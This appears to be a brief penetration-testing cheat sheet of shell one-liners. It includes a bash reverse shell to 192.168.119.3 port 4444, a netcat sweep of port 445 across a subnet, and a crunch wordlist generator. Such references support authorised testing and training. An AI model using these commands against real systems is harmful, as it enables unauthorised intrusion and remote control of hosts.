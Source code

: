 
`for i in $(seq 1 1000); do echo $i >> ids.txt; done` - generates value of id parameter 1-1000

`for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` - conduct a portscan on a remote host

`bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` - utilize to get a reverse shell

`find / -name "readme" 2>/dev/null` - locate a folder and print the location of the folder

`crunch <min> <max> -t <pattern%%%> > wordlist` - generate a wordlist for adhoc usage